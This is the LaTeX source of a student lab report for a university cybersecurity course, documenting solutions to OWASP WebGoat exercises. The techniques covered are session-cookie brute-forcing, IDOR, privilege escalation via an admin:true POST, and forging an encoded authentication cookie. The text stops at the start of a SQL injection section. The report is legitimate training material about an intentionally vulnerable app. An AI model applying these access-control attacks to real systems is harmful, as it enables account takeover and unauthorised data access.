%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% APA Assignment Article
% LaTeX Template
% Version 2.0 (February 7, 2023)
%
% This template originates from:
% https://www.LaTeXTemplates.com
%
% Author:
% Vel (vel@latextemplates.com)
%
% License:
% CC BY-NC-SA 4.0 (https://creativecommons.org/licenses/by-nc-sa/4.0/)
%
% NOTE: The bibliography needs to be compiled using the biber engine.
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

%----------------------------------------------------------------------------------------
%	PACKAGES AND OTHER DOCUMENT CONFIGURATIONS
%----------------------------------------------------------------------------------------

\documentclass[
	letterpaper, % Paper size, use either a4paper or letterpaper
	10pt, % Default font size, can also use 11pt or 12pt, although this is not recommended
	unnumberedsections, % Comment to enable section numbering
	twoside, % Two side traditional mode where headers and footers change between odd and even pages, comment this option to make them fixed
]{APAAssignment}

\addbibresource{bibliography.bib} % BibLaTeX bibliography file

\runninghead{MICS CYBER 252, Fall-2024 Hands On Lab 1} % A shortened article title to appear in the running head, leave this command empty for no running head

\footertext{\textit{Hands On Lab 1 (1.4.2)  } (MICS CYBER 252, Fall -2024)} % Text to appear in the footer, leave this command empty for no footer text

\setcounter{page}{1} % The page number of the first page, set this to a higher number if the article is to be part of an issue or larger work

%----------------------------------------------------------------------------------------
%	TITLE SECTION
%----------------------------------------------------------------------------------------

\usepackage[title,toc,titletoc]{appendix}
\usepackage{titlesec}
\usepackage{lscape}
\usepackage{fontawesome}


\title{Hands-On lab 1 \\ MICS-252, Fall 2024} % Article title, use manual lines breaks (\\) to beautify the layout

% Authors are listed in a comma-separated list with superscript numbers indicating affiliations
% \thanks{} is used for any text that should be placed in a footnote on the first page, such as the corresponding author's email, journal acceptance dates, a copyright/license notice, keywords, etc
% Affiliations are output in the \date{} command
\date{UC Berkleley School of Information \\
MICS Course 252 Fall 2024 (Kristy Westphal)
}


\author{
	Prepared by: Karl-Johan Westhoff \\
	email: \href{mailto:kjwesthoff@berkeley.edu}{kjwesthoff@berkeley.edu}
}


% % Full-width abstract
% \renewcommand{\maketitlehookd}{%
% 	\begin{abstract}
% 		\noindent Lorem ipsum dolor sit amet,rta porttitor.
% 	\end{abstract}
% }

%----------------------------------------------------------------------------------------

\setcounter{tocdepth}{5}
\setcounter{secnumdepth}{5}
\usepackage[title]{appendix}

\begin{document}
\onecolumn
\maketitle % Output the title section

%----------------------------------------------------------------------------------------
%	ARTICLE CONTENTS
%----------------------------------------------------------------------------------------

\section{Introduction}
This assignment was a nice tour of top 10 place 1: "Broken Access Control" and 3:"Injection". I managed to solve most of the exercises, I extensively used online walk-throughs from \cite{CycubicsDocsWebGoat}. The reporting for each exercise can be found in Appendix. 
I could not get the built in quizzes to work (they did not show up) hence some of the green check-marks missing. Furthermore, the "Missing Function Level Access Control" (reported in \ref{app:MisingFunctionLevelAccessCintrol}) took some figuring out, I got some 'inspiration' from a GitHub Issue on the exercise (see \cite{WebGoatGitHubIssue1424}).

\section{Lessons Learned}
When successfully carrying out an exploit of a vulnerability, in hindsight the exploitation seems obvious and you wonder how a vulnerability so obvious could have been missed. There are is nuance to this: 

\begin{itemize}
	\item{Vulnerabilities are often discovered randomly or after many, many hours of testing.}
	\item{Software is often very complex and may have have tecnical debt with hidden vulnerabilities \footnote{Actually the same can be true for business processes, making organizations vulnerable to spear phishing and invoice fraud}}
\end{itemize}

- Attackers more often rely on opportunity \footnote{This is changing, nation state hacking is done by large enterprise like organizations with set goals}


\section{Topics for Further Exploration}
From our discussion in class and reviewing the OSSTMM 3 paper \cite{OSSTMM3} I would really like to explore standards and contracting best practices for pentesting. There are a lot of pitfalls and topics that legal departments will have a 'field day' with! In more 'classic' engineering consulting, contracts and frame agreements set bounds for liability usually capping the incurred possible damages to the sum of the consultancy contract (i.e. "we assume no responsibility of the advice or solutions we have come up with on this consultancy gig - use at your own risk") - I assume the same approach is used in pentesting contracts. \\ I will definitely keep an eye out when i come across examples of pentesting contracts.. 

\subsection{Future of pentesting}
Another thing I pondered on while doing the WebGoat labs was: "Surely no one would deploy websites with these vulnerabilities today". And there is some truth to this, best-practices and standardization such as SOC-2, ISO 27001, OWASP-ASVS \cite{OWASP-ASVS} 'weeds out' the most obvious mistakes. However, the industry itself reports an uptick in pentesting activity (see \cite{Cobalt2024}), with a shift in activities towards AI.

\subsubsection{Pentesting and AI/LLM's}
In various ways, companies providing AI services (chat-bots, prompts, search assistance etc.) constitutes a whole new avenue for pentesting services \cite{Cobalt2024}p.3-6: 
 
\begin{itemize}
	\item Prompt injection, where creative inputs gets the LLM ro reveal un-intended data  
	\item Chatbot hallucination, giving dangerous advice that the company may be liable for \footnote{State of california is in the process of passing SB 1047 "Safe and Secure Innovation for Frontier Artificial Intelligence Models Act."}
	\item Denial of service type attacks, where an attack surface of prompts are given input that require large resources from the LLM  
\end{itemize}

OWASP have published a 'top 10' for LLM Applications \cite{OWASP-Top10-LLM}, in which the items above are included.

\subsubsection{Code quality and copilots..} The youtuber ThePrimeagen has a humorous comment to this topic in \cite{ThePrimaegenCyberStocksUp} "AI vs Cyber Security? - CyberSecurity stocks go'in up!" Reasoning being that "copilot will 'gloriously' copy code with vulnerabilities" as it is trained on code from before. I think this is true, especially in the "move fast and break stuff" tech industry where requirements for fast deployment overrule security (a reason why standardization and regulation is important).    




%----------------------------------------------------------------------------------------
%	 REFERENCES
%----------------------------------------------------------------------------------------
\clearpage
\printbibliography % Output the bibliography

%----------------------------------------------------------------------------------------



%----------------------------------------------------------------------------------------
%	 Appendices
%----------------------------------------------------------------------------------------

\appendix


\clearpage
\begin{appendices}


%\hypertarget{webgoat-setup}{%
\section{WebGoat Setup}\label{app:webgoat-setup}

WebGoat was set up on my `daily driver' Linux Mint, using the docker
image following instructions.

\begin{figure}[!h] % Single column figure
	
\includegraphics[width=\linewidth]{Pasted image 20240823155542.png}
	\caption{Docker Desktop}
	\label{fig:Docker-Desktop}
\end{figure}

\section{WebGoat Exercises}\label{app:webgoat-exercises}

\subsection{Introduction}\label{app:introduction}
Went through the tutorials for WebGoat and WebWolf: - Uploaded a file -
Sent an password reset email from the WebGoat website and received it on
WebWolf, resulting in green check marks, see Figure \ref{fig:WebGoatIntro}. 

\begin{figure}[!ht] % Single column figure
	\centering
	
\includegraphics[width=0.25\textwidth]{Pasted image 20240823161030.png}
	\caption{WebGoat Intro Solved}
	\label{fig:WebGoatIntro}
\end{figure}


\subsection{General}\label{app:general}
\subsubsection{HTTP Basics}

Illustration of request and response 

\begin{figure}[!ht] % Single column figure
	\centering
	
\includegraphics[width=0.4\textwidth]{Pasted image 20240823162927.png}
	\caption{WebGoat Intro Js}
	\label{fig:Intro Js}
\end{figure}


The request sent is a http POST, i found that in the browser tools
Network pane. 

\subsubsection{HTTP Proxies} Solutions are shown in Figures \ref{fig:MajickNo}, \ref{fig:MajickNoBurp} and \ref{fig:MajickGET}

\begin{figure}[!hbt] % Single column figure
	\centering
	
\includegraphics[width=0.4\textwidth]{Pasted image 20240823163525.png}
	\caption{The magic	number is found in an attribute in the html input tag\\}
	\label{fig:MajickNo}
\end{figure}

\begin{figure}[!hbt] % Single column figure
	\centering
	
\includegraphics[width=0.5\textwidth]{Pasted image 20240823163943.png}
	\caption{The magic number  HTTP Proxies Used Burpsuite to complete the tutorial}
	\label{fig:MajickNoBurp}
\end{figure}


\begin{figure}[!hbt] 
	\centering
	
\includegraphics[width=0.8\textwidth]{Pasted image 20240823184950.png}
	\caption{Response}
	\label{fig:MajickGET}
\end{figure}

I could not get the quizzes to show on the webpage, hence the missing checkmarks in figure \ref{fig:GeneralCompleted}  

\begin{figure} [!hbt]
	\centering
	
\includegraphics[width=0.25\linewidth]{Pasted image 20240823204504.png}
	\caption{General Completed}
	\label{fig:GeneralCompleted}
\end{figure}

\clearpage

\section{Broken Access Control}\label{app:BrokenAccessControl} 

\subsection{Hijack a Session}
The authentication system uses an access cookie (named `hijack-cookie'), consisting of a sequential number and a timestamp. There is a login form on the 'Hijack a session' page, sending a HTTP POST request to the server with a username/password to attempt Login. If a HTTP request is sent to the server with random credentials and without a previously created hijack cookie, the server responds with a hijack-cookie, presumably treated as 'invalid' or 'anonymous' by the server when used, but the format and cookie generation is the same as for a valid cookie.

When hitting the endpoint with multiple post requests, the sequential part of the cookie sometimes skips a number, indicating that a valid user has logged in between.

We now know the sequence number and a range for the timestamp -- brute-force time! - using burp's 'Intruder' functionality. 


\begin{figure}[!ht]
	\centering
	
\includegraphics[width=0.6\textwidth]{Pasted image 20240825092257.png}
	\caption{I think the authors of this exercise have been so kind as to use the same timestamp just before the skip in sequence numbers. 
	Anyway it is much easier to brute-force a sequence of numbers than to guess a username/password combination.
	}
	\label{fig:HijackCookieSolved}
\end{figure}

\begin{figure}[!ht] % Single column figure
	\centering
	
\includegraphics[width=0.25\textwidth]{Pasted image 20240825092622.png}
	\caption{Hijack a Session checkmark}
	\label{fig:HijackCookieSolvedCheck}
\end{figure}


\subsection{Insecure Direct Object References}
Messing around I used burpsuite's proxy to intercept and manipulate the GET request to Tom, Cat. I got lucky on guessing Buffalo Bill's id 2342388 (it seemed logical), could have used the intruder from before, testing id's 2342380-23482389.   

\begin{figure}[!htb] % Single column figure
	
\includegraphics[width=\textwidth]{Pasted image 20240825103852.png}
	\caption{Url manipulation to get 'Buffalo Bills' data from the API}
	\label{fig:BuffaloBillGET}
\end{figure}


\begin{figure}[!htb] % Single column figure
	\centering
	
\includegraphics[width=0.25\textwidth]{Pasted image 20240825105558.png}
	\caption{INsecure Direct Object References checkmark}
	\label{fig:InsecureObjectSolvedCheck}
\end{figure}


\subsection{Missing Function Level Access Control}\label{app:MisingFunctionLevelAccessControl}
I think there may be some bugs in the exercise: The endpoint for listing users hereunder 'Jerry'in (3) is at http GET /WebGoat/access-control/users (which is not listed anywhere when hitting the hidden links on the webpage). In (4) a trick/hack is to generate a new user by using the same endpoint as before (/users), but with a POST, hitting it with empty payload {} gives the format for how to generate new users). Generate a user with the same name as you are logged in with and admin:true, this gives access to the  /WebGoat/access-control/users-admin-fix endpoint where Jerry is now listed with a new hash   
   
\begin{figure} % Single column figure
	\centering
	
\includegraphics[width=\textwidth]{Pasted image 20240825124029.png}
	\caption{Hidden DOM elements}
	\label{fig:HiddenDomElements}
\end{figure}

\begin{figure} % Single column figure
	\centering
	
\includegraphics[width=\textwidth]{Pasted image 20240826110246.png}
	\caption{"Users" API endpoint, returning all users}
	\label{fig:UsersEndpoint}
\end{figure}

Changing the http request on /access-control users to a post allows you to add users. Hack is to add a user with same username as you are logged in with, with admin set to 'true'




\begin{figure} % Single column figure
	\centering
	
\includegraphics[width=0.25\textwidth]{Screenshot from 2024-09-01 09-41-18.png}
	\caption{POST Hack to add new user with your own username and admin privileges}
	\label{fig:AddSelfUserUserHack}
\end{figure}

This allows for accessing the /access-control/users-admin-fix endpoint and get hash key for Jerry


\begin{figure} % Single column figure
	
\includegraphics[width=1\textwidth]{Pasted image 20240826125552.png}
	\caption{New user added with your own username and admin:true gives access to the /users-admin-fix endpoint}
	\label{fig:AddedNewUser}
\end{figure}

\begin{figure} % Single column figure
	\centering
	
\includegraphics[width=0.25\textwidth]{Pasted image 20240826130101.png}
	\caption{Missing Function Level Access Control checkmark}
	\label{fig:MissingFuctionAccessControlCheck}
\end{figure}

\clearpage
\subsection{Spoofing an Authentication Cookie}
Got the 2 hashes from logging in using the provided credentials:

\begin{verbatim}
webgoat: NmQ2YzcyNDg1NTU2NDY3MjYyNjg3NDYxNmY2NzYyNjU3Nw==
admin: NmQ2YzcyNDg1NTU2NDY3MjYyNjg2ZTY5NmQ2NDYx
\end{verbatim}


The start is the same for both hashes:

\begin{verbatim}
NmQ2YzcyNDg1NTU2NDY3MjYyNjg
\end{verbatim}


There are some '=' signs indicating Base64 encodig:
Decoding to utf-8 (HEX) using https://www.base64decode.org/

\begin{verbatim}
webgoat: 6d6c724855564672626874616f67626577
admin: 6d6c72485556467262686e696d6461
\end{verbatim}


The above in plaintext using https://planetcalc.com/ gives:

\begin{verbatim}
webgoat: mlrHUVFrbhtaogbew
admin: mlrHUVFrbhnimda
\end{verbatim}

Revealing the usernames in reverse, meaning that Tom' cookie must be:

\begin{verbatim}
plaintext: mlrHUVFrbhmot
Hex: 6d6c72485556467262686d6f74
Base64: NmQ2YzcyNDg1NTU2NDY3MjYyNjg2ZDZmNzQ=
\end{verbatim}

Spoofing the endpoint: 

\begin{figure}[!h] % Single column figure
	\centering
	
\includegraphics[width=1\textwidth]{Pasted image 20240826142028.png}
	\caption{http POST post request with the derived spoofing cookie}
	\label{fig:SpoofPost}
\end{figure}

\begin{figure}[!h] % Single column figure
	\centering
	
\includegraphics[width=0.25\textwidth]{Pasted image 20240826142049.png}
	\caption{Broken Access Control solved}
	\label{fig:BrokenAccessControlSolvedCheck}
\end{figure}

\clearpage

\section{4 Injection}
\subsection{4.1 SQL Injection}
Solutions for various parts:

\begin{itemize}
\item (2) \verb $SELECT * from employees where first_name='Bob'$
